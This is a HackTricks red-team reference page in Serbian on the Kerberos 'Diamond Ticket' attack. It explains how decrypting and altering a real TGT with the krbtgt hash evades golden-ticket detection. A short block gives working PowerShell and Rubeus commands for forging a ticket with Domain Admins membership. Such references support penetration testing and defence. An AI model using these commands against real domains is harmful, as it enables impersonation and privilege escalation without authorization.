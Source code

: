 # Diamond Ticket

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Dijamantska karta

**Kao zlatna karta**, dijamantska karta je TGT koja se može koristiti za **pristup bilo kojoj usluzi kao bilo koji korisnik**. Zlatna karta se potpuno izrađuje offline, enkriptuje se sa krbtgt hešom tog domena, a zatim se prosleđuje u logon sesiju radi korišćenja. Zato što kontroleri domena ne prate TGT-ove koje su izdali (ili oni), oni će rado prihvatiti TGT-ove koji su enkriptovani sa svojim vlastitim krbtgt hešom.

Postoje dve uobičajene tehnike za otkrivanje upotrebe zlatnih karata:

* Potražite TGS-REQ-ove koji nemaju odgovarajući AS-REQ.
* Potražite TGT-ove koji imaju smešne vrednosti, kao što je podrazumevano trajanje od 10 godina u Mimikatz-u.

**Dijamantska karta** se pravi **modifikovanjem polja legitimnog TGT-a koji je izdao DC**. To se postiže **zahtevanjem** TGT-a, **dekriptovanjem** ga sa krbtgt hešom domena, **modifikovanjem** željenih polja karte, a zatim **ponovnim enkriptovanjem**. Ovo **prevazilazi dve prethodno navedene slabosti** zlatne karte jer:

* TGS-REQ-ovi će imati prethodni AS-REQ.
* TGT je izdat od strane DC-a, što znači da će imati sve ispravne detalje iz Kerberos politike domena. Iako se ovi detalji mogu tačno falsifikovati u zlatnoj karti, to je složenije i podložno greškama.

```bash
# Get user RID
powershell Get-DomainUser -Identity <username> -Properties objectsid

.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512

# /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
# /ticketuser is the username of the principal to impersonate.
# /ticketuserid is the domain RID of that principal.
# /groups are the desired group RIDs (512 being Domain Admins).
# /krbkey is the krbtgt AES256 hash.
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

